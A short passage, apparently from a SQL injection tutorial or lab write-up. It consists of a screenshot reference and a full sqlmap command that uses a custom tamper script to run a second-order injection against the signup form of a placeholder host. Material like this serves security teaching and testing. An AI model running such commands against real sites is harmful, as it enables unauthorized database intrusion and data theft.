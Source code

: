 Then run the sqlmap with the tamper option.

```sh
sqlmap --tamper tamper.py --url http://vulnerable.com/signup --data "username=admin&password=test" --second-url "http://vulnerable.com/post" --no-cast
```
